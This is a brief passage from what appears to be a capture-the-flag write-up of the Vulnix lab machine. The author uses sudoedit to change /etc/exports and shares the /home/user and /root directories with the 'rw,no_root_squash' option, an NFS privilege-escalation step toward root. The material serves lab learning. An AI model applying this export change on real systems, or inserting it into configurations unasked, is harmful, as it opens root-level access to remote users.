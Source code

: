 ![evidence](./static/14-nfs-config.png)

And I identify that I can avoid the problem with the `uid` of the users, and I just have to specify the `no_root_squash` option, when I use the `sudoedit` command:
```shell
$ vulnix@vulnix:/home$ sudoedit /etc/exports
```
And it opens a `nano` interface, and I add the `user` and the `root` home directories, and I configure it with the `no_root_squash`:
```shell
/home/user  *(rw,no_root_squash)
/root *(rw,no_root_squash)
```
Then it looks like:

![evidence](./static/15-nano.png)
